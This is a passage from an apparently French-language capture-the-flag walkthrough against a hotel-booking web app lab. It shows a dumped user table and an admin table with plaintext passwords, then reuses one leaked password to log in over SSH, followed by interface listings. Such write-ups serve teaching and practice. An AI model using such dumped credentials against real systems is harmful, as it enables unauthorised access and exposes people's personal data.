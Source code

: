 ```plain
| 3  | Peter Griffin | peterg@worstwestern.com | 0      | 8285703354 | Female | Sec-5 Sahibabad Ghaziabad  | TheBirdIsTheWord | peter.griffin@worstwestern.com | NULL       | 2015-01-01 12:30:00 |
| 7  | Rahul         | rahul@gmail.com         | 0      | 8285703355 | m      | <blank>                    | 123456           | <blank>                        | <blank>    | 2015-02-03 12:30:00 |
| 9  | Anuj          | demo@gmail.com          | 0      | 1234567890 | m      | New Delhi India            | Test@12345       | test@gmail.com                 | <blank>    | 2019-07-10 13:30:00 |
| 11 | Test user     | testuser@gmail.com      | NULL   | 1234567890 | Male   | New Delhi                  | Test@123         | ak@gmail.com                   | NULL       | 2019-08-06 13:09:15 |
| 12 | ABc           | abc@gmail.com           | NULL   | 1234567890 | m      | New Delhi India            | Test@123         | jsadgj@gmail.com               | NULL       | 2019-08-10 06:24:31 |
| 13 | me            | me@home.no              | NULL   | 1          | m      | NULL                       | Test             | NULL                           | NULL       | 2020-10-18 13:09:33 |
| 14 | me            | me@home2.no             | NULL   | 2          | m      | NULL                       | me               | NULL                           | NULL       | 2020-10-18 13:23:55 |
+----+---------------+-------------------------+--------+------------+--------+----------------------------+------------------+--------------------------------+------------+---------------------+

Database: crm
Table: admin
[1 entry]
+----+-------+---------------------+
| id | name  | password            |
+----+-------+---------------------+
| 1  | admin | MySecretPassword123 |
+----+-------+---------------------+
```

Il y a un compte SSH associé pour l'utilisateur *peterg* sur le serveur 192.168.0.1 (le mot de passe est *TheBirdIsTheWord*) :  

```plain
qloapps@prime:~$ ssh peterg@192.168.0.1
peterg@192.168.0.1's password: 
Linux hotelww 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

peterg@hotelww:~$ id
uid=1000(peterg) gid=1000(peterg) groups=1000(peterg)
```

Endgame
-------

```plain
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:24:ba:a1 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.9/24 brd 192.168.56.255 scope global dynamic eth0
       valid_lft 372sec preferred_lft 372sec
    inet6 fe80::a00:27ff:fe24:baa1/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:85:7b:22:df brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: br-b5886ea668dd: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0f:ec:11:4c brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.1/24 brd 192.168.1.255 scope global br-b5886ea668dd
       valid_lft forever preferred_lft forever
    inet6 fe80::42:fff:feec:114c/64 scope link 
       valid_lft forever preferred_lft forever
5: br-cca9bcd0be69: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:4c:04:56:ec brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.1/24 brd 192.168.0.255 scope global br-cca9bcd0be69
```